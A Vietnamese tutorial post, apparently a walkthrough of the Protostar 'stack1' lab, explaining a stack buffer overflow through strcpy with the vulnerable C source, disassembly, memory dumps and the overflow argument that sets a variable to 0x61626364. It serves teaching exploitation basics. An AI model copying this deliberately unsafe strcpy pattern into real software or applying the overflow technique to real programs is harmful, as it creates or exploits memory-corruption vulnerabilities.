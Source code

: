 ```yaml
---
layout: post
title: stack1
---
```

Trong bài trước, chúng ta đã tìm hiểu về cách 1 biến tạm được lưu trên stack và lỗ hổng cho phép giá của nó có thể thay đổi gián tiếp qua hàm `gets`. Ngoài hàm `gets`, trong bài này, ta sẽ xem xét một hàm khác là `strcpy`, cũng có khả năng gây ra lỗ hổng tương tự.
Sau đây là source code của chương trình stack1:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

Cũng giống như bài trước, ta rút ra được những lưu ý sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

2 biến `buffer` và `modified` nằm kề nhau và chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của `buffer` sẽ được quyết định bởi tham số đầu tiên `argv[1]` khi chương trình được chạy.
Chỉ cần tham số này vượt quá 64 byte, giá trị của `modified` cũng sẽ bị thay đổi.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre>
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0xb7eada75</span>
0xbffff710:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff728</span>      <span style="color:aqua">0x08048334</span>
0xbffff720:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048509</span>
0xbffff730:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080484f0</span>      <span style="color:aqua">0xbffff758</span>
0xbffff740:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080484fb</span>      <span style="color:orangered">0x00000000</span>
</pre>

Nếu sử dụng input như bài trước, ta sẽ sửa được giá trị của `modified` thành `0x00000078`.
Sau đây là bộ nhớ sau `strcpy`.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888x"
```

<pre>
0xbffff6f0:     0xbffff70c      0xbffff941      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

Tuy nhiên để đạt được đúng mục tiêu exploit chương trình stack1, chúng ta sẽ cần gán giá trị cho `modified` là `0x61626364`.
4 byte giá trị này tương đương với `"dcba"` (chuỗi ngược do kiến trúc CPU dùng Little Endian).
Sau đây là lệnh và tham số để chạy stack1 cho ra đúng kết quả mong muốn.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba"
```

Đi kèm với đó là bộ nhớ sau `strcpy` để bạn dễ tưởng tượng.

<pre>
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x61626364</span>
</pre>

## Ref
```bash
user@protostar:~$ stack1 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba
you have correctly got the variable to the right value
```
